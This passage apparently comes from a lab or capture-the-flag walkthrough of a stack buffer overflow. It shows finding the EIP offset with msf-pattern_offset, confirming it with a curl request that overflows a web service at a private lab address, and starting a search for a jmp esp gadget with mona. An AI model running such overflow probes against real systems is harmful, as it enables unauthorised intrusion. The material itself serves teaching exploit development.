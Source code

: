 

    root@kali# msf-pattern_offset -q 41326241
    [*] Exact match at offset 36



So that's 36 bytes, or 72 characters. I can verify (using 8 Bs to make 4
bytes):



    root@kali# curl --head http://10.1.1.146:8008/$(python -c 'print "A"*72 + "B"*8')



![](/img/1554139443908.png)

### Find JMP ESP

Next I'll look for a `jmp esp` gadget so that I can jmp back to my code
once I gain execution. I'll check out the modules using `!mona modules`:

[![](/img/1554139883147.png)*Click for full
size ![image*](/img/1554139883147.png)
